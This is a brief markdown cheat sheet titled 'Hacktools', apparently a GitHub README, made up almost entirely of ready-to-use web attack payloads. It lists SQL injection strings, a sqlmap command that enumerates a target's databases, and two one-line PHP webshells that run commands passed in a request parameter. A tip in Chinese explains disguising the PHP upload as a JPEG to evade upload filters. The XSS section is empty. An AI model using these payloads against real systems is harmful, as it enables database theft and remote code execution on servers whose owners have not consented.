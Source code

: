 # Hacktools

# SQLI
## Easy command
'OR 1=1-- <br>
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p your-parament --random-agent --batch --dbs


# XSS


# php file upload webshell

```
<?php system($_REQUEST["cmd"]);?> 
<?php echo shell_exec($_GET['cmd']);?> 
```
or <br>
將 Content-Type: application/x-php 換成 /image/jpeg


https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/README.md
